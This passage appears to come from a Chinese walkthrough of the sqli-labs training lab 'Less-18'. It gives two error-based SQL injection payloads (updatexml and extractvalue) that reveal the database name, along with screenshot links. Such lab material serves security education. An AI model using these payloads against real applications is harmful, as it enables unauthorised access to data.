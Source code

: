 ![Less-18_9](./img/Less-18_9.PNG)



+ 爆库名

~~~ shell
两条语句均可用
' and updatexml(1,concat(0x7e,(select database()),0x7e),1) and '1'='1
' and extractvalue(1,concat(0x7e,(select database()),0x7e)) and '1'='1
~~~

![Less-18_7](./img/Less-18_7.PNG)
